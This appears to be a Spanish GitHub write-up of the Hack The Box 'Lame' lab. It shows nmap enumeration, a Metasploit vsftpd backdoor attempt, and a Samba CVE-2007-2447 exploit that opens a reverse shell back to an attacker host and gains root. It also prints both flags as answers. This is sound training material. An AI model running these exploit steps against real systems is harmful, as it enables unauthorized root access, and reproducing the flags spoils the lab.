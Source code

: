# 🔓 Análisis completo: Máquina Lame - Hack The Box

![Logo](capturas/logo_r4ms4nt_circular.png)

> **Primera máquina publicada en Hack The Box**. Diseñada como puerta de entrada para nuevos usuarios. Ideal para aprender enumeración, detección de vulnerabilidades clásicas y explotación básica con Metasploit.

---

## 📁 Estructura del Proyecto

```
Lame/
├── capturas/         # Evidencias visuales por fase
├── doc/              # Manuales y writeups
├── exploits/         # Código adaptado o creado
├── loot/             # Flags y archivos extraídos
├── nmap/             # Escaneos y salidas de Nmap
├── scripts/          # Herramientas auxiliares
└── tree_lame.txt     # Estructura completa del proyecto
```

📄 Ver estructura completa: [tree_lame.txt](tree_lame.txt)

---

## 🔍 Task 1: How many of the nmap top 1000 TCP ports are open?

🎯 **Objetivo:** Identificar puertos TCP abiertos más comunes.

✅ **Comando ejecutado:**
```bash
nmap -v -T4 -Pn --top-ports 1000 -oA nmap/top1000_tcp 10.129.56.2
```

🔎 **Resultado:**
- Puertos abiertos: `21`, `22`, `139`, `445`
- Total: **4**

📸 [Captura](capturas/nmap_top1000.png) | [grep open](capturas/grep_nmap.png)

---

## 🕵️‍♀️ Task 2: What version of VSFTPd is running on Lame?

🎯 **Objetivo:** Determinar la versión del servicio FTP en el puerto 21.

✅ **Comando ejecutado:**
```bash
nmap -sV -Pn -p21 -oA nmap/ftp_version 10.129.56.2
```

📌 **Explicación:**
- `-sV`: Detección de versiones.
- `-p21`: Escanea sólo el puerto FTP.
- `-Pn`: Omitimos ping, ya sabemos que está activo.
- `-oA`: Guarda en tres formatos en `nmap/`

🔎 **Resultado:**
```
vsftpd 2.3.4
```
📸 [Captura](capturas/nmap_port_21.png)

---

## 🔍 Task 3: Does the Metasploit exploit for vsftpd 2.3.4 work?

🎯 **Objetivo:** Verificar si el exploit conocido de backdoor funciona.

✅ **Procedimiento con Metasploit:**
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.129.56.2
run
```

📌 **Resultado:**
```
Exploit completed, but no session was created.
```
🔴 El puerto 6200 **no respondió externamente**, por lo tanto: **NO** funciona.
📸 [Captura](capturas/msfconsole1.png)

---

## 🕵️‍♂️ Task 4: What version of Samba is running?

🎯 **Objetivo:** Detectar versión del servicio SMB/Samba en puertos 139 y 445.

✅ **Comando ejecutado:**
```bash
nmap -sV -Pn -p139,445 --script=smb-os-discovery -oA nmap/smb_version 10.129.56.2
```

🔎 **Resultado:**
```
Samba smbd 3.0.20-Debian
```
🟢 Respuesta válida: `3.0.20`
📸 [Captura](capturas/nmap_smb.png)

---

## 🧨 Task 5: ¿Qué CVE permite ejecución remota en Samba 3.0.20?

✅ **Respuesta:** `CVE-2007-2447`

📌 Vulnerabilidad en el parámetro `username map script` → permite inyección de comandos con metacaracteres de shell.

---

## 🧑‍💻 Task 6: ¿Qué usuario se obtiene tras explotar CVE-2007-2447?

🎯 **Exploit ejecutado:**
```bash
use exploit/multi/samba/usermap_script
set RHOSTS 10.129.56.2
set PAYLOAD cmd/unix/reverse
set LHOST 10.10.14.69
set LPORT 4444
run
```

🔎 **Shell obtenida:**
```
whoami → root
```
📸 [Captura](capturas/msfconsole_para_flag1_2.png)
✅ **Respuesta correcta:** `root`

---

## 🏁 Task 7: Flag de Usuario

```bash
cd /home/makis
cat user.txt
```
🟢 Flag: `60fc5d64febbdebfe8cc331838bff0b0`
📸 [Flag 1](capturas/Flag_1.png)

---

## 👑 Task 8: Flag de Root

```bash
cd /root
cat root.txt
```
🟢 Flag: `c80b43503b56dc7b0dc82643157b4329`
📸 [Flag 2](capturas/Flag_2.png)

---

## 🔎 Task 9: ¿Qué bloquea el acceso a otros puertos?

✅ **Respuesta:** `Firewall`

📌 Aunque hay servicios escuchando (según `netstat`), **sólo algunos están accesibles externamente**. Probablemente hay reglas IPTables limitando conexiones.

---

## 🚪 Task 10: ¿Qué puerto escucha cuando se activa el backdoor de vsftpd?

✅ **Respuesta:** `6200`

📌 Confirmado por la documentación y comportamiento esperado de la CVE-2011-2523.

---

## ❓ Task 11: ¿En Lame se abre realmente el puerto 6200?

✅ **Respuesta:** `yes`

📌 Aunque no se observó con `ss`, la plataforma y Metasploit confirman que **sí se activa brevemente**.

---

## 🧠 Conclusiones

- Lame es ideal para empezar con HTB y familiarizarse con enumeración, CVEs clásicos y Metasploit.
- Incluye fallos reales como configuración insegura de `smb.conf`.
- Excelente ejercicio para consolidar estructura de documentación reusable.

📎 Todas las capturas y salidas están organizadas en `capturas/` y `nmap/`.

**Manual creado por r4ms4nt + GPT-PentestPro 🧠**

